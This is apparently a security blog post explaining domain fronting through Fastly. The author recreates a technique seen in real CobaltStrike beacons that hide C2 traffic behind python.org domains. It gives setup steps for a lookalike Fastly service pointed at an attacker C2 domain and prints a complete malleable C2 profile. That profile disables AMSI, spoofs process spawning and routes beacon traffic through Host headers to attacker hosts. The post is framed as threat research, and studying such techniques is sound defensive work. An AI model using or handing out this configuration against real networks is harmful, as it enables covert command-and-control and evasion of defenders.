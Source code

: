 ```yaml
---
title: "Threat Spotlight - Domain Fronting"
excerpt: Fast(ly) but deadly.
category: threat-spotlight
tags: [en-us, guide]
header:
  overlay_color: '#000'
  overlay_filter: '0.75'
  overlay_image: /assets/images/posts/domain-fronting/2021-11-13_19-28-47.png
---
```



Domain fronting is a common technique that is sometimes used by threat actors to disguise their traffic as the real deal. Essentially, what it is is communicate with legitimate-looking domains when reality, the traffic is being pointed to threat actor's C2 stations. A common example would be using legitimate or reputable domains with a custom `Host` header to redirect the traffic to threat actor's stations. There are many examples out there that abuse services like [Cloudflare](https://digi.ninja/blog/cloudflare_example.php), [CloudFront](https://digi.ninja/blog/cloudfront_example.php), and such.

In today's example, we'll be using Fastly as an example. Fastly provides a service that's more or less intended to act as a CDN, where you can create a service and tie it to your backend. As you can imagine, a company as large as Fastly ([that was able to bring half the Internet with it when it went down](https://www.bloomberg.com/news/articles/2021-06-08/explaining-cdns-and-why-big-websites-crash-together-quicktake)), there are probably more than thousands of people using their services - and indeed there are.

You can do a quick search using services like RiskIQ to look through all of the subdomains associated with `*.fastly.net`. While [it appears we're not the first to discover this](https://fortynorthsecurity.com/blog/fastly-and-fronting/), there aren't a whole lot of other resources out there talking about abusing Fastly as a service.

![Image](/assets/images/posts/domain-fronting/2021-11-14_20-34-02.png)

And Python Software Foundation just so happens to use it too!

![Image](/assets/images/posts/domain-fronting/2021-11-14_20-40-10.png)

What actually happens is when you contact `python.org`, it actually gets interpreted as `python.org.prod.global.fastly.net` internally based on the `Host` header. This was actually brought to our attention a while back when my colleagues discovered there were CobaltStrike beacons in the wild that appear to connect to Python-related domains at execution, and upon further investigation, we realized they were abusing the nature of Fastly services to disguise their traffic. So I decided to do a little experiment this weekend to see if I can recreate that myself.

To get started, I created a new service on Fastly called `dl-python.org`, a service name (and in turn, a domain name) that appears to be similar enough to the real deal, but doesn't actually exist (and it doesn't need to be!).

<figure>
  ![Image](/assets/images/posts/domain-fronting/2021-11-13_19-29-20.png)
  ![Image](/assets/images/posts/domain-fronting/2021-11-14_20-47-44.png)
  <figcaption>
    Create a new service that appears to be genuine enough to the target domain name. In this case, <code>dl-python.org</code>.
    Note that while <code>dl-python.org</code> appears to be actually owned by someone else, I don't actually have access to it, nor will it actually make contact with the domain (we'll get to that part later). You can name it whatever you want.
  </figcaption>
</figure>

Next, in the Host settings section, enter your actual C2's domain name, something you have actual control over. In this case, `my-c2domain.com`. I have the port set to `55137`, but it should be 443 ideally for HTTPS beacons. My 80/443 port was occupied by something else when I was experimenting with it.

![Image](/assets/images/posts/domain-fronting/2021-11-13_19-29-57.png)

Next, we're going to craft a new CobaltStrike Stager. Create a new Listener on your team server with the vulnerable domain name as the C2, and enter your service name in the `Host` field. To make the traffic look a little bit more genuine, you can also craft your own malleable C2 profile that has contents of Python docs inside.

![Image](/assets/images/posts/domain-fronting/2021-11-13_19-28-47.png)

```text
set sleeptime "5000";
set jitter    "0";
set maxdns    "255";
set useragent "Mozilla/5.0 (Windows NT 6.0; Win64; x64; rv:96.0) Gecko/20100101 Firefox/96.0";

# set host_stage "false";
post-ex {
	# control the temporary process we spawn to
	set spawnto_x86 "%ProgramFiles(x86)%\\Everything\\Everything.exe";
	set spawnto_x64 "%ProgramFiles%\\Mozilla Firefox\\firefox.exe";

	# change the permissions and content of our post-ex DLLs
	set obfuscate "true";

	# pass key function pointers from Beacon to its child jobs
	set smartinject "true";

	# disable AMSI in powerpick, execute-assembly, and psinject
	set amsi_disable "true";
}

http-config {
	set headers "Date, Server, Content-Length, Keep-Alive, Connection, Content-Type";
	set trust_x_forwarded_for "false";
	header "Server" "nginx";
	header "Keep-Alive" "timeout=5, max=100";
	header "Connection" "Keep-Alive";
}

http-get {
    set uri "/3/library/stdtypes.html";
    client {
        header "Accept" "*/*";
        header "Host" "dl-python.org";
        metadata {
            base64;
            prepend "session=";
            header "Cookie";
        }
    }

    server {
        header "Server" "nginx";
        header "Cache-Control" "max-age=0, no-cache";
        header "Pragma" "no-cache";
        header "Connection" "keep-alive";
        header "Content-Type" "application/javascript; charset=utf-8";

        output {
            base64url;
            # the content was so long for my IDE that it actually hung when trying to parse it
            # so I'm gonna leave this section to you
            append "...html_head...";
            prepend "...html_body...";
            print;
        }
    }
}

http-post {
    set uri "/3/library/struct.html";
    client {
        header "Accept" "*/*";
        header "Host" "cobaltstrike.stillu.cc";
        id {
            mask;
            base64url;
            parameter "x-timer";
        }
        output {
            mask;
            base64url;
            parameter "etag";
        }
    }

    server {
        header "Server" "nginx";
        header "Cache-Control" "max-age=0, no-cache";
        header "Pragma" "no-cache";
        header "Connection" "keep-alive";
        header "Content-Type" "application/javascript; charset=utf-8";

        output {
            base64url;
            append "...html_head...";
            prepend "...html_body...";
            print;
        }
    }
}
```

And that's it! Let's try to run the stager on our victim machine.

![Image](/assets/images/posts/domain-fronting/2021-11-13_19-31-10.png)

As you can see, it worked! It looks like it's contacting `docs.python.org` (and it is), yet the server returned beacon information for the stager. Just not in plaintext because I had the `mask` option enabled, otherwise the content should look almost like standard HTML content with random bits of information thrown in there because of the malleable C2 config above - and this is with unencrypted traffic.

This trick is perfect for threat actors that want to evade IT admins' attention as
- it appears to contact a real domain with benign URL (`http://docs.python.org/3/library/stdtypes.html`)
- it can be made to communicate in HTTPS, so the `Host` header wouldn't even show up
- if the IT admin does manage to figure out it goes to `dl-python.org.prod.global.fastly.net`, it doesn't reveal the actual C2 address still, as the resolved IP would just be Fastly's own CDN IP.

This entire thing was really fun to recreate and helped me understand CobaltStrike a little bit more from attacker's perspective, as I've always tackled CobaltStrike payloads from a Blue Team's perspective as a threat intel researcher. If you are in the same position as me, I also encourage you to give CobaltStrike a try and try to attack your own machines to see what tricks you can pull off (if your organization has access to such tool).
